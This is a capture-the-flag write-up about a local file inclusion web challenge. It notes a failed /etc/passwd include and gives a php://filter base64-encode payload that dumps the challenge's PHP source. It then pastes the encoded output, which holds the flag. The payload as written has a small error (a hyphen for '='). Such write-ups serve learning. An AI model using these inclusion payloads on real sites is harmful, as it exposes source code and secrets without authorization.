




# LFI 



Well, here's the next problem. Apparently, this name of this problem is the hint to the solution.


When we opened the page, we could see some links to click on, and of course, we tried them all. But....nothing was in there.


So we google for LFI and found a github page about LFI --



First, the Direct Local Include was not what we needed since it's about password (shown in the picture). Yet, we tried to change the `/etc/passed` into `flag` and it went out like:


Second, the php filter. Perhaps this is what we need -- to filter out the original php file. However the both lines of the php filter did not work. 


Later, we tried to remove the `.php` at the end of the base64-encode. Thus, what we entered was --`page=php://filter/convert.base64-encode/resource-config.php`  -- and it worked!



```
PCFET0NUWVBFIGh0bWw+CjxodG1sPgogIDxoZWFkPgoKICAgIDx0aXRsZT5BJkQgQ1RGPC90aXRsZT4KCiAgICA8bGluayBocmVmPSJzdHlsZXMuY3NzIiB0eXBlPSJ0ZXh0L2NzcyIgcmVsPSJzdHlsZXNoZWV0IiBtZWRpYT0ic2NyZWVuIiB0aXRsZT0iTWFpbiBTdHlsZXNoZWV0Ii8+CiAgICA8bGluayBocmVmPSJzdHlsZXNfYWx0LmNzcyIgdHlwZT0idGV4dC9jc3MiIHJlbD0ic3R5bGVzaGVldCBhbHRlcm5hdGl2ZSIKICAgICAgICAgIG1lZGlhPSJzY3JlZW4iIHRpdGxlPSJBbHRlcm5hdGl2ZSBTdHlsZXNoZWV0Ii8+CgogIDwvaGVhZD4KICA8Ym9keT4KCiAgICAgIDxkaXYgY2xhc3M9ImJhbm5lciI+CiAgICAgICAgPHRhYmxlIGNsYXNzPSJiYW5uZXIiIHN1bW1hcnk9IkJhbm5lciIgY2VsbHBhZGRpbmc9IjAiIGNlbGxzcGFjaW5nPSIwIj4gIAogICAgICAgICAgPGNhcHRpb24gY2xhc3M9Im5vbmVfZGlzcGxheSI+Jm5ic3A7PC9jYXB0aW9uPgogICAgICAgICAgPHRib2R5PgogICAgICAgICAgICA8dHI+CiAgICAgICAgICAgICAgPHRkPgogICAgICAgICAgICAgICAgPHNwYW4gaWQ9ImhlYWRlckJpZ1RpdGxlIj4mbmJzcDsmbmJzcDsgVGhlIEF0dGFjayBhbmQgRGVmZW5zZSBvZiBDb21wdXRlcnMgQ1RGPC9zcGFuPgogICAgICAgICAgICAgIDwvdGQ+CiAgICAgICAgICAgIDwvdHI+CiAgICAgICAgICAgIDx0cj4KICAgICAgICAgICAgICA8dGQ+CiAgICAgICAgICAgICAgICA8c3BhbiBpZD0iaGVhZGVyU3ViVGl0bGUiPlRyeSB0aGUgJnF1b3Q7TG9jYWwmbmJzcDtGaWxlJm5ic3A7SW5jbHVzaW9uJnF1b3Q7IFByb2JsZW08L3NwYW4+CiAgICAgICAgICAgICAgPC90ZD4KICAgICAgICAgICAgPC90cj4KICAgICAgICAgIDwvdGJvZHk+CiAgICAgICAgPC90YWJsZT4KICAgICAgPC9kaXY+CgogICAgICA8aHIgLz4KCiAgICAgIDxkaXYgaWQ9Im1lbnVCYXIiPgogICAgICAgIDxiciAvPiZuYnNwOyZuYnNwOyZuYnNwOyZuYnNwOyZuYnNwOyZuYnNwOwogICAgICAgIDxhIGhyZWY9ImluZGV4LnBocCIgY2xhc3M9ImFjdGl2ZV9iYXIiPgogICAgICAgICAgLjotIEhvbWUKICAgICAgICA8L2E+CiAgICAgICAgJm5ic3A7Jm5ic3A7Jm5ic3A7CiAgICAgICAgPGEgaHJlZj0iaW5kZXgucGhwP3BhZ2U9dGVzdCIgY2xhc3M9InBhc3NpdmVfYmFyIj4KICAgICAgICAgIC46LSBUZXN0CiAgICAgICAgPC9hPgogICAgICAgICZuYnNwOyZuYnNwOyZuYnNwOwogICAgICAgIDxhIGhyZWY9ImluZGV4LnBocD9wYWdlPWNvbnRlbnQiIGNsYXNzPSJwYXNzaXZlX2JhciI+CiAgICAgICAgICAuOi0gQ29udGVudAogICAgICAgIDwvYT4KICAgICAgICAmbmJzcDsmbmJzcDsmbmJzcDsKICAgICAgPC9kaXY+CgogICAgICA8aHIgLz4KICAgICAgPGRpdj4KICAgICAgICA8YnIvPgogICAgICA8L2Rpdj4KICAgICAgPGRpdj4KICAgICAgICA8P3BocAoKICAgICAgICAgICAgaWYgKCFpc3NldCgkX0dFVFsncGFnZSddKSl7CiAgICAgICAgICAgICAgZGllKCJUaGlzIGlzIEhPTUUgcGFnZSIpOwogICAgICAgICAgICB9CiAgICAgICAgICAgIGVsc2V7CgogICAgICAgICAgICAgICRwYWdlID0gJF9HRVRbJ3BhZ2UnXTsKCiAgICAgICAgICAgICAgaWYgKHN0cnBvcygkcGFnZSwgJy4uLycpICE9IEZhbHNlKQogICAgICAgICAgICAgICAgZGllKCdQbGVhc2UgbGVhdmUgaGVyZSEnKTsKCiAgICAgICAgICAgICAgaWYgKHN0cnBvcygkcGFnZSwgJy4vJykgIT0gRmFsc2UpCiAgICAgICAgICAgICAgICBkaWUoJ1BsZWFzZSBsZWF2ZSBoZXJlIScpOwoKICAgICAgICAgICAgICAkcGFnZSA9ICRwYWdlIC4gJy5waHAnOwoKLy8gICAgICAgICAgICAgIGlmICghZmlsZV9leGlzdHMoJHBhZ2UpKQovLyAgICAgICAgICAgICAgICAgIGRpZSgiRmlsZSBub3QgZm91bmQiKTsKCiAgICAgICAgICAgICAgaW5jbHVkZSggJHBhZ2UgKTsKCiAgICAgICAgICAgICAgLy8gdGhlIGZsYWcgaXMgQUR7UEhwX1dyNHBwM3JfcjAwMDAwT09PT2NrNX0KCiAgICAgICAgICAgIH0gIAoKICAgICAgICAgICAgICAgCiAgICAgICAgPz4KICAgICAgPC9kaXY+CgogICAgICA8aHIgLz4KCgogICAgPC9kaXY+CgogIDwvYm9keT4KPC9odG1sPgo=
```


A string of encoded php showed up on the webpage. We copied that string and decode it, using online base64 decoder, and found the flag in the php file.


